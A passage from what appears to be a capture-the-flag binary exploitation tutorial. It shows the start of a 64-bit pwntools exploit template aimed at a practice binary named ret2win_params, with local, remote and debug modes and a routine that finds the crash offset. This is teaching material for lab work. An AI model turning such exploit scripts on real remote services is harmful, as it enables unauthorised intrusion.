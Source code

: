       # Get flag
      io.interactive()     
      ```

### 9.  64 bit exploit script
      ```
      from pwn import *
      
      # Allows easy swapping betwen local/remote/debug modes
      def start(argv=[], *a, **kw):
          if args.GDB:  # Set GDBscript below
              return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
          elif args.REMOTE:  # ('server', 'port')
              return remote(sys.argv[1], sys.argv[2], *a, **kw)
          else:  # Run locally
              return process([exe] + argv, *a, **kw)
      
      
      def find_ip(payload):
          # Launch process and send payload
          p = process(exe)
          p.sendlineafter(b':', payload)
          # Wait for the process to crash
          p.wait()
          # Print out the address of EIP/RIP at the time of crashing
          # ip_offset = cyclic_find(p.corefile.pc)  # x86
          ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
          info('located EIP/RIP offset at {a}'.format(a=ip_offset))
          return ip_offset
      
      
      # Specify your GDB script here for debugging
      gdbscript = '''
      init-pwndbg
      continue
      '''.format(**locals())
      
      
      # Set up pwntools for the correct architecture
      exe = './ret2win_params'
      # This will automatically get context arch, bits, os etc
      elf = context.binary = ELF(exe, checksec=False)
      # Enable verbose logging so we can see exactly what is being sent (info/debug)
      context.log_level = 'debug'
      